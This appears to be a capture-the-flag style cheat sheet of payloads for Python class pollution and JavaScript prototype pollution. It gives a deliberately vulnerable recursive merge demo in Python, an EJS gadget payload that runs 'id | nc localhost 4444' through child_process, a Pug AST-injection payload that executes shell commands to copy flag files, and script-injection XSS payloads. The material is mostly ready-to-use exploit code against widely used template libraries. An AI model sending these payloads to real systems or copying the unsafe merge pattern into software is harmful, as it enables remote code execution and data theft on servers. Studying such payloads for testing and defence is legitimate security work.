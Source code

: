 
## Python class injection 

```python

class Feedback:
    def __init__(self):
        self.title = ""
        self.content = ""
        self.rating = ""
        self.referred = ""
        

# Vulenrable function
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)



secret= '13241341234'

injection = {"__class__":{"__init__":{"__globals__":{"flag":"hacked"}}}}
# feedback.__class__.__init__.__globals__['secret'] = 'hacked'
feedback = Feedback()
merge(injection, feedback)
print(flag)

```

# Javascript Prototype Pollution


## RCE in EjS 
- source [PoC-CVE-2024-33883](https://github.com/Grantzile/PoC-CVE-2024-33883)
- source [ejs-server-side-prototype-pollution-gadgets-to-rce](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce)

### Exploit
```json
{
    "__proto__": {
        "client": 1,
        "escapeFunction": "JSON.stringify; process.mainModule.require('child_process').exec('id | nc localhost 4444')"
    }
}
```


## AST Injection in Pug
- source [how-ast-injection-and-prototype-pollution-ignite-threats](https://rayepeng.medium.com/how-ast-injection-and-prototype-pollution-ignite-threats-abb165164a68)
- source [JS Prototype Chain Pollution and AST Injection Questions](https://rayepeng.net/JS-yuan-xing-lian-wu-ran-ji-AST-zhu-ru-de-ji-dao-ti-mu?locale=en)

### How Attack works
```javascript
const pug = require('pug');

Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>
```

### Exploit 
- [CVE-2020-36632](https://security.snyk.io/vuln/SNYK-JS-FLAT-596927)
#### **For RCE use line**
```json
{
"__proto__.block": {
"type": "Text",
"line":
"process.mainModule.require('child_process').execSync('cat /app/flag* > /app/static/f.txt')"
}
}
```
#### **For XSS use val**
this will chnage every value evualated by AST to payload 
```json
{
"artist.name":"Gingell",
"__proto__.block": {
"type": "Text",
"val":
"<script>alert(1)</script>')"
}
```
